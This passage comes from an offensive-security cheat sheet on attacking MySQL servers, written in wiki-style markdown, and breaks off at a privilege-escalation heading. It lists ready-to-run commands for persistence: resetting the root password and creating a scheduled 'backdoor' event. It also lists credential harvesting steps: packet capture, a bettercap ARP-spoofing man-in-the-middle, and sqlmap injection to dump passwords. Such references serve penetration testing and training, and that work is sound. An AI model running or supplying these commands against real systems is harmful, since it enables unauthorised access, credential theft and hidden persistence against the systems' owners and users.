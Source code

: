 #### Change Existing User Account Password

*   **Tool:** \[\[MySQL]]

    ```bash
    ALTER USER 'root'@'localhost' IDENTIFIED BY 'newpassword';
    ```
* **Description:** Modify an existing user account password for persistent access.

#### Scheduled Event Creation

*   **Tool:** \[\[MySQL]]

    ```sql
    CREATE EVENT backdoor_event ON SCHEDULE EVERY 1 HOUR DO INSERT INTO logs (message) VALUES ('backdoor');
    ```
* **Description:** Schedules a recurring event that can be used to execute malicious SQL commands periodically.

### Credential Harvesting

#### Packet Capture

*   **Tool:** \[\[Wireshark]]

    ```bash
    wireshark -i <interface> -f "tcp port <port>"
    ```
* **Description:** Capture traffic and extract plaintext credentials.

#### Man-in-the-Middle (MITM) Attack

*   **Tool:** \[\[BetterCap Cheat Sheet]]

    ```bash
    bettercap -iface <interface> -T <target_ip> --proxy
    ```
* **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

#### Password Dumping via SQL Injection

*   **Tool:** \[\[SQLMap Cheat Sheet]]

    ```bash
    sqlmap -u "http://<target_ip>/vulnerable.php?id=1" --dbms=mysql --dump --passwords
    ```
* **Description:** Dumps usernames and passwords from the MySQL database by exploiting SQL injection.

### Privilege Escalation

#### Create Admin Account

